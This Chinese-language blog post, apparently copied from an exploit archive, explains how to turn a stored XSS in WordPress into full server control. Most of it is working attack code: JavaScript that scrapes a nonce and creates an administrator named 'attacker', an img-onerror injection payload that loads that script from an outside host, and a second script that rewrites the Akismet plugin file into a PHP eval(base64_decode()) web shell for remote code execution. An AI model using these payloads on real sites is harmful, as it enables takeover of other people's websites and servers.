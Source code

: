 # （从 xss 到 getshell） xss 的深层次利用与探讨

> 原文：[http://book.iwonder.run/0day/Wordpress/7.html](http://book.iwonder.run/0day/Wordpress/7.html)

今天我们的网站上公布了大量的 wp 的 xss，那么这篇文章就是深入探讨如何深入利用 xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过 js 文件添加 wp 系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其 Web 服务器上托管 JavaScript 文件，例如 wpaddadmin [.] js（在链接中描述）。此 JavaScript 代码将添加一个 WordPress 管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1];  

// Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
ajaxRequest = new XMLHttpRequest();  
ajaxRequest.open("POST", requestURL, true);  
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
ajaxRequest.send(params); 
```

然后，攻击者可以使用以下 PoC 插入 JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图 1.插入 XSS 代码以添加管理员帐户

![image](img/d676037e280f221bbc6a8ca6c746446b.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图 2\. XSS 代码被执行

![image](img/1918430a392fb7e76b4e9e97b45aba61.png)

### 图 3\. XSS 代码创建的具有管理员权限的“攻击者”帐户

![image](img/489ace883db5461e19c72ea8b4ca8e11.png)

然后，攻击者可以将现有的 php 文件修改为 Webshel​​l，并使用该 Webshel​​l 来控制 Web 服务器。

图 4.使用攻击者的帐户添加一个 Web Shell

![image](img/1a4eadcaade2043ce1964a75fb0b6e44.png)

图 5.控制 Web 服务器

![image](img/d673b64a0b5ef014e8ebe6f319779e75.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

// Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params); 
```

一旦此 XSS 被管理用户触发，我们应该能够通过向脚本

[http://0-sec.org/wp-content/plugins/akismet/index.php](http://0-sec.org/wp-content/plugins/akismet/index.php)

发送 GET / POST 请求来执行任意 PHP 代码，其中参数“ x”等于我们的 PHP 代码的“ base64_encode”。

